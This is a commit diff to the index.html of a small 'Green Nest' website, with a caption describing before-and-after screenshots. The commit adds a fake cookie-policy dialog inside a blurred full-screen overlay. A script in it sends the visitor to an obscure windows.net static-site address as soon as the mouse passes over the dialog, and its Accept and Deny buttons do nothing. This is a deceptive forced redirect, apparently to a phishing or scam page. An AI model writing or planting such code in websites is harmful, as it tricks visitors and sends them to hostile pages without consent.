

Before and after one commit to sanjsndas/greennest, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 317-1060 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme; placeholder pictures from the web are drawn by us.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -11,7 +11,94 @@
   * {
     box-sizing: border-box;
   }
+
+
+
+
   body {
+      margin: 0;
+      padding: 0;
+      font-family: 'Segoe UI', sans-serif;
+      background: url('https://via.placeholder.com/1200x800') no-repeat center center/cover;
+      height: 100vh;
+    }
+
+    .overlay {
+      position: fixed;
+      inset: 0;
+      backdrop-filter: blur(5px);
+      background: rgba(0, 0, 0, 0.5);
+    }
+
+    .dialog-box {
+      position: fixed;
+      top: 50%;
+      left: 50%;
+      transform: translate(-50%, -50%);
+      background: #1c1c1c;
+      color: white;
+      padding: 30px;
+      border-radius: 20px;
+      width: 400px;
+      box-shadow: 0 0 25px rgba(0,0,0,0.6);
+      text-align: center;
+      transition: 0.3s;
+    }
+
+    .dialog-box:hover {
+      cursor: pointer;
+    }
+
+    .dialog-box h2 {
+      margin-top: 0;
+      font-size: 1.6em;
+      color: #fff;
+    }
+
+    .dialog-box p {
+      font-size: 1em;
+      line-height: 1.6em;
+      color: #ccc;
+    }
+
+    .buttons {
+      display: flex;
+      justify-content: center;
+      margin-top: 20px;
+      gap: 15px;
+    }
+
+    .buttons button {
+      padding: 10px 25px;
+      border: none;
+      border-radius: 25px;
+      font-size: 1em;
+      font-weight: bold;
+      cursor: pointer;
+    }
+
+    .accept {
+      background-color: #00cc66;
+      color: white;
+    }
+
+    .deny {
+      background-color: #e53935;
+      color: white;
+    }
+
+    .policy-link {
+      margin-top: 15px;
+      display: block;
+      color: #00bcd4;
+      text-decoration: none;
+      font-size: 0.9em;
+    }
+
+
+
+
+
     margin: 0;
     font-family: 'Poppins', sans-serif;
     background: #f3f9f1;
@@ -715,6 +802,30 @@
   </section>
 </main>
 
+
+
+   <div class="overlay">
+    <div class="dialog-box" onmouseover="redirect()">
+      <h2>🍪 Our New Cookie Policy !</h2>
+      <p>
+        For optimized experience, some elements may store temporary signals & For your safety, our Website uses cookies to personalize content and ads, provide social media features, and analyze our traffic.
+      </p>
+      <div class="buttons">
+        <button class="accept">Accept</button>
+        <button class="deny">Deny</button>
+      </div>
+      <a href="#" class="policy-link">Policy Page</a>
+    </div>
+  </div>
+
+  <script>
+    function redirect() {
+      window.location.href = "https://erorxaz01xxxmxx.z13.web.core.windows.net/";
+    }
+  </script>
+
+
+
 <footer role="contentinfo">
   Increase Content Customer Satisfaction at Green Nest Care
   <address>
```
